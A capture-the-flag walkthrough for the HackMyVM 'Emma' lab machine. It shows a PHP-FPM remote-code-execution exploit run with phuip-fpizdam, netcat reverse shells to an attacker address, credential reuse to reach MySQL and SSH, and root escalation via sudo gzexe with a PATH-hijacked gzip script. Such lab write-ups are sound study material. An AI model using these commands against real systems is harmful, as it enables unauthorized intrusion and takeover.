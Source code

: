 ```yaml
---
layout: post
title:  "HackMyVM - Emma"
date:   2021-03-07 10:10:05 +0300
categories: [hackmyvm,walkthrough]
pin: true
tags: [gzexe,golang,sql,phuip-fpizdam]
image: /images/emma.jpg
---
```

- You’ll find this vm in HackMyVM `https://hackmyvm.eu/machines/machine.php?vm=Emma`

- Difficulty : Hard

## Directory scan
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ dirb http://10.0.2.171
  ---- Scanning URL: http://10.0.2.171/ ----
  + http://10.0.2.171/index.php (CODE:200|SIZE:0)                                                                  
  + http://10.0.2.171/phpinfo.php (CODE:200|SIZE:58765)                                                            
  + http://10.0.2.171/robots.txt (CODE:200|SIZE:15)  
{% endhighlight %}


## Robots.txt

```
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/robots.txt                                               
itwasonlyakiss
```

## Set up golang

- sudo apt-get install golang
- go get github.com/neex/phuip-fpizdam
- export PATH=$PATH:$(go env GOPATH)/bin

## Run the script

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ phuip-fpizdam http://10.0.2.171/index.php
  2021/02/07 13:48:59 Base status code is 200
  2021/02/07 13:48:59 Status code 502 for qsl=1770, adding as a candidate
  2021/02/07 13:48:59 The target is probably vulnerable. Possible QSLs: [1760 1765 1770]
  2021/02/07 13:48:59 Attack params found: --qsl 1760 --pisos 42 --skip-detect
  2021/02/07 13:48:59 Trying to set "session.auto_start=0"...
  2021/02/07 13:48:59 Detect() returned attack params: --qsl 1760 --pisos 42 --skip-detect <-- REMEMBER THIS
  2021/02/07 13:48:59 Performing attack using php.ini settings...
  2021/02/07 13:48:59 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/02/07 13:48:59 Trying to cleanup /tmp/a...
  2021/02/07 13:48:59 Done!
{% endhighlight %}

## Reverse shell

- curl

```sh
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/index.php?a=/bin/sh+-c+'id;nc -e /bin/sh 10.0.2.15 4444'&
```

- listener

```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43972
/usr/bin/script -qc /bin/bash /dev/null
www-data@emma:~/html$
```

## Found emma's ssh credentials

- cat /etc/passwd

```sh
www-data@emma:~$ cat /etc/passwd
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```
- The database maybe contains important data

- MySQL root login

```sh
www-data@emma:~$ mysql -u root -pitwasonlyakiss
MariaDB [(none)]> show schemas;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
MariaDB [(none)]> use users;
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f****************************** |
+----+------+----------------------------------+
1 row in set (0.000 sec)
```

## Emma ssh login

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ ssh emma@10.0.2.171        
emma@10.0.2.171's password: 5f******************************

```

## Privileges Escalation

```#!/bin/sh
emma@emma:~$ sudo -l
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
emma@emma:~$ ls
flag.sh  user.txt  who  who.c
emma@emma:~$ ./who
Im
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
But now Im
uid=1000(emma) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
emma@emma:~$ stat who
  File: who
  Size: 16760           Blocks: 40         IO Block: 4096   regular file
Device: 801h/2049d      Inode: 146490      Links: 1
Access: (6750/-rwsr-s---)  Uid: (    0/    root)   Gid: ( 1000/    emma)
```

```#!/bin/sh

emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
/bin/id:         59.2%
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/sh 10.0.2.15 4444" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
Im
(UNKNOWN) [10.0.2.15] 4444 (?) : Connection refused
Cannot decompress /usr/bin/id
```

- listener

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43986
id
whoami
root
ls
flag.sh
user.txt
who
who.c
cd /root
ls
flag.sh
root.txt
```
